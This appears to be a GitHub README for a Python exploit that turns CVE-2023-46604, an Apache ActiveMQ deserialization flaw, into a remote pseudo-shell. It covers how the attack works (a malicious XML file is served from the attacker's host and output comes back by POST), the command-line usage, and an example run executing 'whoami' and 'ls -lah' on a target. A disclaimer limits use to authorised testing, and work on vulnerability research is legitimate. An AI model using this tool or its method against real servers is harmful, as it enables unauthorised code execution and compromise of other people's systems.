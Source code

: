 # CVE-2023-46604 RCE Pseudoshell

This script leverages CVE-2023046604 (Apache ActiveMQ) to generate a pseudo shell. The vulnerability allows for remote code execution due to unsafe deserialization within the OpenWire protocol.


## Description

CVE-2023-46604 is a deserialization vulnerability that exists in Apache ActiveMQ's OpenWire protocol. This flaw can be exploited by an attacker to execute arbitrary code on the server where ActiveMQ is running. An attacker can craft a malicious xml file, commands from which will be executed by the remote server. 

This explot automates and abstracts the process of xml document creation, provides a basic server to deliver the file and receives information back from the target server via POST. This allows continued exploitation without the need to invoke a reverse shell, or deploy a binary. 


## Prerequisites

Before running the exploit script, ensure that you have:

- Python 3.x installed on your system.
- Network access to the vulnerable ActiveMQ server.
- Permssion to test against the vulnerable server. 


## Usage

The script requires:
- ActiveMQ Server IP or Hostname
- Serve IP (An IP on your system, reachable by the target.)

Optional:
- ActiveMQ Server Port - defaults to 61616
- Serve port (The port to start the local server on) - defaults to 8080

```
usage: exploit.py [-h] -i IP [-p PORT] -si SRVIP [-sp SRVPORT]

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        ActiveMQ Server IP or Hostname
  -p PORT, --port PORT  ActiveMQ Server Port, defaults to 61616
  -si SRVIP, --srvip SRVIP
                        Serve IP
  -sp SRVPORT, --srvport SRVPORT
                        Serve port, defaults to 8080

```

## Example

```
$python3 exploit.py -i 10.129.230.87 -p 61616  -si 10.10.14.59 -sp 8080
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.129.230.87:61616
[*] Serving XML at: http://10.10.14.59:8080/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ whoami
activemq

Apache ActiveMQ$ ls -lah
total 164K
drwxr-xr-x  5 activemq activemq 4.0K Nov  7 12:50 .
drwxr-xr-x 11 activemq activemq 4.0K Nov  6 01:18 ..
-rwxr-xr-x  1 activemq activemq  21K Apr 20  2021 activemq
-rwxr-xr-x  1 activemq activemq 6.1K Apr 20  2021 activemq-diag
-rw-r--r--  1 activemq activemq  17K Apr 20  2021 activemq.jar
-rw-r--r--  1 activemq activemq 5.5K Apr 20  2021 env
drwxr-xr-x  2 activemq activemq 4.0K Nov  5 00:13 linux-x86-32
drwxr-xr-x  2 activemq activemq 4.0K Nov  5 00:13 linux-x86-64
drwxr-xr-x  2 activemq activemq 4.0K Nov  5 00:13 macosx
-rw-r--r--  1 activemq activemq  82K Apr 20  2021 wrapper.jar

Apache ActiveMQ$ 
```
[CVE-2023-46604-RCE.webm](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell/assets/129839654/38f280fa-2252-4161-acb3-9b92d3635eac)


## Credits
This exploit builds on the oiringal POC in Go by [X1r0z](https://github.com/X1r0z/ActiveMQ-RCE) and Python POC by [evkl1d](https://github.com/evkl1d/CVE-2023-46604).

## Disclaimer

This code is provided for educational purposes as well as for use in legitimate, AUTHORISED, security testing. Do not use this shell to attempt to access any system which you do not have explicit permission to test or practice on.

